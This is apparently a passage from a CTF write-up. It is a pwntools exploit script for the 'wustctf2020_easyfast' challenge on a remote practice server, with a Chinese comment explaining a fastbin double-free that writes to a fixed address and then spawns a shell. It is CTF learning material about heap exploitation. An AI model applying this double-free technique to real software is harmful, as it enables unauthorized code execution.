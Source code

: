     # uaf漏洞，借助了0x602088处的有一个50的值，因为double free任意写的chunk的size必须和分配的相等，不然报错。

    from pwn import *

    context(log_level='debug')

    elf = ELF('./wustctf2020_easyfast')
    # sh = process('./wustctf2020_easyfast')
    sh = remote('node4.buuoj.cn', 27643)

    def debug():
        pid = util.proc.pidof(sh)[0]
        gdb.attach(pid)
        pause()

    def add(size):
        sh.recvuntil('choice>\n')
        sh.sendline('1')
        sh.recvuntil('size>\n')
        sh.sendline(str(size))

    def delete(index):
        sh.sendlineafter('choice>\n', '2')
        sh.sendlineafter('index>\n', str(index))

    def modify(index, content):
        sh.sendlineafter('choice>\n', '3')
        sh.sendlineafter('index>\n', str(index))
        sh.send(content)

    add(0x40)
    add(0x40)

    delete(0)
    delete(1)
    delete(0)

    modify(0, p64(0x602080))

    # debug()
    add(0x40)
    add(0x40)

    modify(3, p64(0))

    sh.recvuntil('>\n')
    sh.sendline('4')

    sh.interactive()

## unsortedbin attack
